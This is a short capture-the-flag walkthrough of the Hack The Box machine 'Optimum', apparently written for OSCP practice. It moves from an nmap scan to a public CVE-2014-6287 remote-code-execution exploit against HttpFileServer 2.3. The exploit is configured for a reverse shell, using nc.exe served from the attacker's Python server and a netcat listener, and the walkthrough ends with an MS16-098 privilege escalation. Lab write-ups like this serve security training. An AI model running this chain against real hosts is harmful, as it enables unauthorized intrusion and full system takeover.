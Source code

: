 ```yaml
---
layout: post
title: "optimum"
categories: HTB
---
```


```bash
nmap -v -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 04:26 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 04:26
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 04:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:26
Completed Parallel DNS resolution of 1 host. at 04:26, 0.01s elapsed
Initiating SYN Stealth Scan at 04:26
Scanning 10.10.10.8 [1000 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 04:27, 16.32s elapsed (1000 total ports)
Initiating Service scan at 04:27
Scanning 1 service on 10.10.10.8
Completed Service scan at 04:27, 6.48s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 04:27
Completed NSE at 04:27, 0.99s elapsed
Initiating NSE at 04:27
Completed NSE at 04:27, 0.93s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```
Only one port is open. Nmap revale the Http Version.
With that version i found a RCE exploit in:
```
[link]
(https://gist.github.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9)
```

Download the exploit:
```bash 
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py

```

Before launcing the exploit i first edited as follows:
```python
    ip_addr = "10.10.14.7:8000" #local IP address
    ip_addr1="10.10.14.7"
    local_port = "443" # Local Port number
```

In another terminal i hosted nc.exe and started python server in the same working directory:
```bash
    python -m SimpleHTTPServer
```
And another terminal listening in port 443:
```bash
nc -lvp 443
```
Finally executing the exploit give a shell:
```bash
python cve-2014-6287.py 10.10.10.8 80
```

#Escalation
We can escalate in two way:

[link]
(https://gist.github.com/intrd/6dda33f61dca560e6996d01c62203374)

And 

[link] (https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098)


For quick escalation download bfill from second link, upload to the box and execute like:
```bash
.\bfill.exe 
```
And you are root :).

![GitHub Logo](../images/Screenshot.png)


Note: I have quickly, wrote this note as i am preparing for OSCP!

Thanks!

